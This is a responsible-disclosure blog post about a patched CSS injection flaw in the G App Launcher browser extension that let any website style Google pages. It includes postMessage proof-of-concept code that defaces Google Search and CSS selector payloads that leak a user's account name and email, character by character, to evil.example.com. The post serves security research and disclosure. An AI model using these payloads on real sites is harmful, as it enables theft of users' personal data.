 ```yaml
---
title: "Having fun with CSS injection in a browser extension"
date: 2021-06-28T13:06:18+0200
description: G App Launcher browser extension allowed any website to inject CSS code into Google pages. This could be used not merely for visual changes but for data exfiltration as well.
categories:
- security
- add-ons
---
```


Normally, CSS injection vulnerabilities are fairly boring. With some luck, you can use them to assist a clickjacking attack. That is, unless the vulnerable party is a browser extension, and it lets you inject CSS code into high profile properties such as Google’s. I’ve now had some fun playing with this scenario, courtesy of G App Launcher browser extension.

{{< img src="css_injection.png" alt="Website malicious.com injects CSS code via G App Launcher browser extension into google.com website. As a result, the malicious website displays the message: Your name is John Smith, john@example.com" width="600" >}}
<em>
  Image credits:
  <a href="https://searchfox.org/mozilla-central/source/" rel="nofollow">Mozilla</a>,
  <a href="https://apps.jeurissen.co/g-app-launcher" rel="nofollow">G App Launcher</a>
</em>
{{< /img >}}

The vulnerability has been resolved in G App Launcher 23.6.1 on the same day as I reported it. Version 23.6.5 then added more changes to further reduce the attack surface. This was a top notch communication experience, many thanks to Carlos Jeurissen!

{{< toc >}}

## The issue

As so often, the issue here was a `message` event listener (something that browser vendors [could address](https://bugs.chromium.org/p/chromium/issues/detail?id=1188556)). In G App Launcher 23.6.0 it looked as follows (variable names reconstructed for clarity):

{{< highlight js >}}
window.addEventListener("message", function (event) {
  if (event.data) {
    if ("hide" === event.data.newGbwaConfig) {
      overlay.classList.add("💙-hgbwa");
      if (button && isButtonVisible())
        button.click();
    }
    if ("launcheronly" === event.data.newGbwaConfig)
      overlay.classList.remove("💙-cgbwa");
    if (event.data.algClose)
      closeOverlay();
    if (event.data.algHeight)
      setHeight(event.data.algHeight);
  }
}, true);
{{< /highlight >}}

This event handler would accept commands from any website. Most of these commands merely control visibility of the overlay without taking any data from the message into account. The only interesting command is `algHeight`. Looking at the `setHeight()` function, the relevant part is this:

{{< highlight js >}}
var element = document.createElement("style");
element.textContent = ".💙-c {height:" + (height + 14) + "px !important;}";
{{< /highlight >}}

If `height` here is a string, the arithmetical addition turns into string concatenation. So a value like `0}body{display:none}.dummy{` will inject arbitrary styles (here rendering the entire document invisible).

Last question before we turn to exploitation: where is this event handler active? The content script is injected for Google domains only. And there is an additional check in the code which is excluding some sites:

{{< highlight js >}}
if (!(origin.startsWith("https://ogs.google.") ||
    origin.startsWith("https://accounts.google.") ||
    origin.startsWith("https://cello.client-channel.google."))) {
{{< /highlight >}}

Google Accounts sign-in site is excluded, too bad. But all other Google properties can be exploited. There is one more check disabling this functionality on Safari, so it’s the only browser not affected.

## Messing with the content

Most Google websites protect against clickjacking attacks by disallowing framing. This means that the attackers would have to open a Google website in a new tab. This also has the advantage of displaying a trusted address in the address bar.

Still, what’s the worst that could happen? The attackers will hide some parts of the content and rearrange others? This doesn’t sound like a big issue. But CSS can also modify the content displayed. Consider the following code for example:

{{< highlight js >}}
document.body.onclick = () =>
{
  let wnd = window.open("https://www.google.com/search?q=google", "_blank");
  setInterval(() =>
  {
    wnd.postMessage({algHeight: `0;}
      h3::before
      {
        content: "Hacked!";
        font-size: 20px !important;
      }
      h3
      {
        font-size: 0 !important;
      }
      dummy{`}, "*");
  }, 0);
}
{{< /highlight >}}

When the user clicks somewhere, this will open Google Search. The attacking page will immediately start posting a message to the G App Launcher extension, making it add some CSS code to the search page. And then the search results will look like that:

{{< img src="google_hacked.png" width="876" alt="Google search result page for the search 'google' with the titles of all search results replaced by 'Hacked!'" />}}

This might be enough to convince somebody that Google has indeed been hacked. Similarly, attackers might for example display a Bitcoin scam, with an official Google domain lending it credibility.

## Exfiltrating data

But that’s not the end of it. Google websites know a lot about you. For example, there is the following element:

{{< highlight html >}}
<a class="…" aria-label="Google Account: Wladimir Palant (me@example.com)">
{{< /highlight >}}

Using CSS only, it is possible to read out the value of this `aria-label` attribute. As far as I am aware, this attack has been first publicized by Eduardo Vela in 2008, he built his [CSS Attribute Reader](https://sirdarckcat.blogspot.com/2008/10/about-css-attacks.html) as proof-of-concept. Here the attacking website would inject the following CSS code into a Google page:

{{< highlight css >}}
a[aria-label^="Google Account: a"]
{
  background-image: url("https://evil.example.com/?a");
}
a[aria-label^="Google Account: A"]
{
  background-image: url("https://evil.example.com/?A");
}

…

a[aria-label^="Google Account: W"]
{
  background-image: url("https://evil.example.com/?W");
}

…

a[aria-label^="Google Account: z"]
{
  background-image: url("https://evil.example.com/?z");
}
a[aria-label^="Google Account: Z"]
{
  background-image: url("https://evil.example.com/?Z");
}
{{< /highlight >}}

The CSS code lists selectors for every possible first letter of the account name. For me, the selector `a[aria-label^="Google Account: W"]` will match the element and trigger a request to `https://evil.example.com/?W`. So the attacking website will learn that the first letter is `W` and send a new message to the page, injecting a new set of selectors:

{{< highlight css >}}
a[aria-label^="Google Account: Wa"]
{
  background-image: url("https://evil.example.com/?Wa");
}
a[aria-label^="Google Account: WA"]
{
  background-image: url("https://evil.example.com/?WA");
}

…

a[aria-label^="Google Account: Wl"]
{
  background-image: url("https://evil.example.com/?Wl");
}

…

a[aria-label^="Google Account: Wz"]
{
  background-image: url("https://evil.example.com/?Wz");
}
a[aria-label^="Google Account: WZ"]
{
  background-image: url("https://evil.example.com/?WZ");
}
{{< /highlight >}}

Now the selector `a[aria-label^="Google Account: Wl"]` will match the element and the website can start guessing the third letter. The process is repeated until the entire attribute value is known. That’s both my name and email address. And the attack is happening completely in the background while I am interacting with the page normally. There are no page reloads or anything else that would tip off users about the attack.

And that’s just an arbitrary Google website. A similar attack could be launched against Gmail for example to extract the names and email addresses of people you are communicating with. Given enough time, this attack could extract all your contacts.

How much time? With some optimizations: probably not too much. The main slowdown here is the request going out to a web server. That web server then has to communicate back to the attacking page so that it launches the next attack round. But modern browsers support [Service Workers](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers), a mechanism allowing to handle such requests in client-side JavaScript code. So a service worker could receive the background image request and notify the attacking page, all that without producing any network traffic whatsoever.

## Timeline

* 2021-06-01: Notified G App Launcher author about the vulnerability via support email address.
* 2021-06-01: Received response that G App Launcher 23.6.1 has been released and is pending review by add-on stores.
* 2021-06-03: Received notification that the update is live on all add-on stores but Microsoft Edge.
* 2021-06-10: Received notification that G App Launcher 23.6.5 with further attack surface reduction is live on all add-on stores.
* 2021-06-14: Agreed on 2021-06-28 as final disclosure date.
